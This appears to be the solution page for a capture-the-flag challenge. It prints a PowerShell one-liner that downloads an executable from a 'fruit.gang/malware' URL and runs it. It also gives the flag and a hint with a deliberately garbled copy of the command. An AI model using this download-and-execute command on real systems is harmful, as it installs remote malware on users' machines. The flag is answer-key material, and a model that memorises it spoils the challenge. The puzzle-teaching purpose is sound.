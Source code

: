 ## End Command

powershell -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';$CNTA = 'banANA-Hakrz09182afd4';$jri=$env:public+'\'+$CNTA+'.exe';try {$oaK.DownloadFile($OrA, $jri);Invoke-Item $jri;break;} catch {}"

flag is banANA-Hakrz09182afd4

### Hints

ask for what they have. if they give you something like below

"poWeACewRsHELLL3c33 -command $oae$3fnav3eiK = new-objecaoX3&it Net.WebClient;$OrA = 'http://fruit.ret3.gang/malwar.rds8e';$CNTA = 'banAFl0ddNA-Hakrzf3zsd283209182afd4';$jri=$env:public+''+$CNTA+'.exe';tr4d2dxy{$oaK.DowRy.isnloadFile($OrA, $jri);Invoke-Item $jri;break;} catch {}"

tell them the command looks invalid, and is there an assumption you made that could be giving you some incorrect parts

